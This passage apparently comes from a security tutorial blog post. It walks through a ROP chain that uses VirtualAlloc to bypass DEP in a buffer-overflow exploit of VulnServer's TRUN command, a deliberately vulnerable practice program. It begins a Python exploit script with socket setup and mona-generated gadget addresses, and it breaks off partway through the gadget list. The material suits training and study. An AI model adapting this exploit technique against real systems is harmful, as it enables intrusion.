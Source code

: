 To the layman, this is a lot of information to take in. Even for me, having already gone through the SLAE course by Pentester Academy, there are some confusing operations going on. Let's take a look at the MSDN for VirtualAlloc() and get a better understanding of how it relates to DEP.

> Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process. Memory allocated by this function is automatically initialized to zero.

```C++
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

Source: [MSDN](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

First in the sequence of the ROP chain, it pops a known pointer to VirtualAlloc() from the Import Address Table into EAX and returns. Remember, every gadget within the ROP chain needs to specify a retn opcode to return control back to the subsequent gadgets in the chain. It then moves a double word of the VirtualAlloc() pointer into EAX, and exchanges positions with ESI (source). It then changes the stack frame to VirtualAlloc(), and assigns some values as arguments with the following heuristics:

1. Allocates a new memory region
2. Marks the region excepted from DEP policy
3. Stores location of shellcode into EAX
4. Returns to the new location of the shellcode from EAX

This is a very quick summary, and like I said, there are parts of this ROP chain that confuse me, so I may have messed up my analysis of it. 

A more detailed analysis can be found here: [Corelan Function Calls](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/#functioncalls)

Let's copy/paste this into the skeleton exploit, change the C's to "\xCC" to instantiate a debugger interrupt, and see what happens:

```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
```